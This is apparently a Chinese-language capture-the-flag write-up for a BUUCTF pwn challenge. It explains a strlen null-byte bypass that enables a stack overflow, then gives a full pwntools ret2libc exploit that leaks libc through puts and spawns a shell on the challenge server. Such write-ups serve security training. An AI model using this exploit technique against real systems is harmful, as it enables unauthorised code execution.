



# 知识点

strlen截断、ret2libc


# 题目解析

1. 查看保护情况，发现是32位程序，开启了RELRO，无法修改got表地址。

   ```bash
       Arch:     i386-32-little
       RELRO:    Full RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，发现程序取随机数，然后调用第一个函数，将返回结果作为参数调用第二个函数。

   

3. 分析第一个函数。

   首先，将随机数赋值给s，然后通过read读取0x20大小数据到buf。

   然后，将buf和s进行比较，即要求我们输入的数据和随机数相等。

   若相等，将buf[7]作为返回值，否则，退出程序。

   strlen是可疑函数，这里涉及一个知识点，strlen遇到\x00就结束，因此我们令buf[0]=\x00，就可以绕过strncmp的检查。

   因此，我们可以任意控制返回值。

   

4. 分析第二个函数。

   判断参数是否等于127，若相等，read读入0xC8数据到buf。否则，读入a1数据到buf。

   因此，参数即read读入大小，我们可以将其设置为很大的数从而利用read的栈溢出漏洞控制返回地址。

   

5. 由于程序没有后门函数，不过提供了puts函数，我们通过puts的got表地址泄露libc地址，然后ret2libc即可。

   需要注意的是，在func1中，会将buf最后一个输入的字符替换为\x00，因此，我们需要多输入一个字符。

   其次，我们泄露puts的返回地址设置为main，否则可能导致堆栈平衡错误。

​	

# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./pwn')
io = remote('node4.buuoj.cn', '25423')
libc = ELF('./libc-2.23.so')
elf = ELF('./pwn')

main = 0x08048825
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

payload1 = '\x00' * 7 + '\xff' + '\x00'
io.send(payload1)

# leak puts
payload = 'A' * 0xE7 + 'dead'
payload += p32(puts_plt) + p32(main) + p32(puts_got)
io.send(payload)
io.recvuntil('\x0a')
puts_real = u32(io.recv(4))
success('puts_real = ' + hex(puts_real))

# libc
libc_base = puts_real - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()

# ret2libc
io.send(payload1)
payload = 'A' * 0xE7 + 'dead'
payload += p32(system) + p32(0) + p32(binsh)
io.send(payload)

io.interactive()
```

